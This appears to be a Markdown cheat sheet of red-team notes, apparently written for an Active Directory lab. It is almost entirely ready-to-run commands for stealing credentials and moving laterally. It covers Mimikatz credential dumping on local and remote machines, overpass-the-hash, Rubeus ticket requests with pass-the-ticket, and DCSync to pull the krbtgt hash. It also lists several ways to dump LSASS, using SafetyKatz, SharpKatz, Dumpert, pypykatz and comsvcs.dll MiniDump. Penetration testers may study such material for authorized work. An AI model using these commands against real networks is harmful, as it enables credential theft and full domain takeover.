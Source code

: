 # Lateral Movement [ Invoke-Mimikatz, SafetyKatz, Rubeus.exe ]
## Dump credentials on a local machine
```powershell
Invoke-Mimikatz -DumpCreds
```

## Dump credentials on multiple remote machines
```powershell
Invoke-Mimikatz -DumpCreds -ComputerName @("sys1","sys2")
```

## OverPass-The-Hash : generate tokens from hashes
```powershell
# Invoke-Mimikatz
Invoke-Mimikatz -Command '"sekurlsa::pth /user:Administrator /domain:dollarcorp.moneycorp.local /ntlm:<ntImhash> /run:powershell.exe"'

# Invoke-Mimikatz using AES
Invoke-Mimikatz -Command '"sekurlsa::pth /user:Administrator /domain:us.techcorp.local /aes256:<aes256key> /run:powershell.exe"'

# SafetyKatz
SafetyKatz.exe "sekurlsa::pth /user:administrator /domain:us.techcorp.local /aes256:<aes256keys> /run:cmd.exe" "exit"

# The above commands starts a PowerShell session with a logon type 9 (same as runas /netonly).

# Rubeus.exe
# Below doesn't need elevation
Rubeus.exe asktgt /user:administrator /rc4: /ptt

# Below command needs elevation
Rubeus.exe asktgt /user:administrator /aes256: /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```

## DCSync Attack
+ To extract credentials from the DC without code execution on it, we can use DCSync
+ To use the DCSync feature for getting krbtgt hash execute the below command with DA privileges for us domain
+ By default, Domain Admins privileges are required to run DCSync
```powershell
# Invoke-Mimikatz
Invoke-Mimikatz -Command '"lsadump::dcsync /user:us\krbtgt"'

# SafetyKatz
SafetyKatz.exe "lsadump::dcsync /user:us\krbtgt" "exit"

# SafetyKatz Old (For Windows 2020 Server)
SafetyKatz_old.exe "lsadump::dcsync /user:us\krbtgt" "exit"
```

---

# Other ways to extract creds from LSASS

## Invoke-Mimikatz
### 1. Dump credentials on a local machine using Mimikatz
```powershell
Invoke-Mimikatz -Command '"sekurlsa::ekeys"'
```

---

## SafetyKatz & SharpKatz
### 2. Using SafetyKatz (Minidump of lsass and PELoader to run Mimikatz)
```powershell
SafetyKatz.exe -Command "sekurlsa::ekeys" "exit"

# SafetyKatz Old (For Windows 2020 Server)
SafetyKatz_old.exe -Command "sekurlsa::ekeys" "exit"
```

### 3. Dump credentials Using SharpKatz (C# port of some of Mimikatz functionality)
```powershell
SharpKatz.exe -Command ekeys
```

---

## Dumpert
### 4. Dump credentials using Dumpert (Direct System Calls and API unhooking)
```powershell
rundll32.exe C:\Dumpert\Outflank-Dumpert.dll,Dump
```

---

## pypykatz
### 5. Using pypykatz (Mimikatz functionality in Python)
```powershell
pypykatz.exe live lsa
```

---

## comsvcs.dll
### 6. Using comsvcs.dll
```powershell
tasklist /FI "IMAGENAME eq lsass.exe"
rundll32.exe C:\windows\System32\comsvcs.dll, MiniDump <lsass process ID> C:\Users\Public\lsass.dmp full
```

> Now Extract the creds from lsass dump

```powershell
# Run mimikatz
# set the location of the lsass dump
sekurlsa::minidump C:\AD\Tools\lsass.DMP

# get the debug privs
privilege::debug

# now get the ekeys
sekurlsa::ekeys
```

---

## SharpKatz
### 7. Using SharpKatz.exe to do DCSync Attack
```powershell
SharpKatz.exe --Command dcsync --User us\krbtgt --Domain us.techcorp.local --DomainController us-dc.us.techcorp.local
```
